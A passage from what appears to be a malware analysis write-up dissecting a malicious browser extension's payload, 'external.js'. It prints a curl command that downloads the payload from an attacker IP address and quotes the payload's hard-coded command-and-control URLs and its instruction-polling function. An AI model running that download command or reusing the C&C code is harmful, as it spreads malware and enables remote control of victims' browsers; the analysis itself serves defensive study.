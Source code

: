 }
{% endhighlight %}

I was able to simulate a such request with the following cURL command.

{% highlight bash %}
curl -o external.js --header "XYZ-Extension-Id: nogheblblcgkncmpggmikmcpnjdihgdd" http://104.131.35.136:9999/jsnew.php?id=22&r=1467883037000
{% endhighlight %}

This gave me the malware payload. It doesn't have a formal name, but I called it `external.js`. This is a fairly long file, clocking in at 1288 lines. Here's what it's capable of doing.

### Getting instructions from an external server
Two <abbr title="Uniform Resource Locators">URLs</abbr> are defined in the beginning of `external.js`:

{% highlight javascript linenos %}
var ACTIONS_URL = 'http://159.203.99.206/api/get/';
var STATUS_URL = 'http://159.203.99.206/api/status';
{% endhighlight %}

The first <abbr title="Uniform Resource Locator">URL</abbr> is to get instructions from a server, and the second one is to report back to it. This model of getting instructions from a server and sending the status back is not a new trick at all; it's called [Command and Control](https://en.wikipedia.org/wiki/Command_and_control_(malware)) (or <abbr title="Command and Control">C&C</abbr> for short).

We'll discover how the extension gets instructions from the <abbr title="Command and Control">C&C</abbr> server, and what the instructions contain by looking at the `getActions()` function defined in `external.js`:

{% highlight javascript linenos %}
function getActions(uid) {
	var xhr = new XMLHttpRequest();
	
	xhr.open('GET', ACTIONS_URL + uid, true);
	xhr.responseType = 'json';
	
	xhr.onload = function() {
		var data = xhr.response;
		var actions = data && data.actions;
		
		if (Array.isArray(actions) && actions.length) {
			checkFBLogin(function(status) {
				fbLoginStatus = status;
				handleActions(actions);
			});
		}
	};
	
	xhr.send();
}
{% endhighlight %}

The `uid` variable is a unique identifier for your machine, and is generated by a function called `generateUID()`:
